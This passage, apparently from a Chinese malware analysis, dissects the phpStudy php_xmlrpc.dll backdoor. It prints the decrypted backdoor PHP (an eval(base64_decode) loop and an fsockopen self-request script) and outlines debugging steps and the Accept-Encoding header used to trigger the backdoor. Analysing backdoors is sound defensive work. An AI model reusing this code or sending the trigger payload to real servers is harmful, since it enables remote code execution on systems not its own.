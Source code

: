 ```
        if (strpos($info[3],"/*Onemore*/") !== false){
            $info[3] = str_replace("/*Onemore*/","",$info[3]);
            $n=true;
        }
        @eval(base64_decode($info[3]));
    }
}while($n);

```

![4.jpg](media/202009/83726a10598849238ca4c4d3fdd526bf.jpg)

从1000D028 到1000D66C的代码解密：

```
@ini_set("display_errors","0");
error_reporting(0);
$h = $_SERVER['HTTP_HOST'];
$p = $_SERVER['SERVER_PORT'];
$fp = fsockopen($h, $p, $errno, $errstr, 5);
if (!$fp) {
} else {
    $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
    $out .= "Host: {$h}\r\n";
    $out .= "Accept-Encoding: compress,gzip\r\n";
    $out .= "Connection: Close\r\n\r\n";

    fwrite($fp, $out);
    fclose($fp);
}

```

![5.jpg](media/202009/32524f057fa7471392f63246b7b7834e.jpg)

#### 动态调试构造传参内容

OD动态调试传参值需要对httpd.exe进程进行附加调试，phpstudy启用的httpd进程有两个。一个是带有参数的，一个是没有带参数的。在下断的时候选择没有参数的httpd.exe下断才能触发后门。

根据前面IDA静态分析得到的后门函数地址，OD附加进程后从httpd.exe调用的模块里找到php_xmlrpc.dll模块，在DLL空间里定位后门函数地址0x100031F0，可能还需要手动修改偏移后下断点。使用burpsuite，构造Accept-Encoding的内容。发包后可以动态调试。建立触发点的虚拟机快照后可以反复跟踪调试得到最终可利用的payload。

![6.jpg](media/202009/6976eef9cfee441fb32d1807512a67e8.jpg)

图4：OD动态调试Payload

#### PHP脚本后门分析

脚本一功能：使用fsockopen模拟GET发包

```
@ini_set("display_errors","0");
error_reporting(0);
$h = $_SERVER['HTTP_HOST'];
$p = $_SERVER['SERVER_PORT'];
$fp = fsockopen($h, $p, $errno, $errstr, 5);
if (!$fp) {
} else {
    $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
    $out .= "Host: {$h}\r\n";
    $out .= "Accept-Encoding: compress,gzip\r\n";
    $out .= "Connection: Close\r\n\r\n";

    fwrite($fp, $out);
    fclose($fp);
```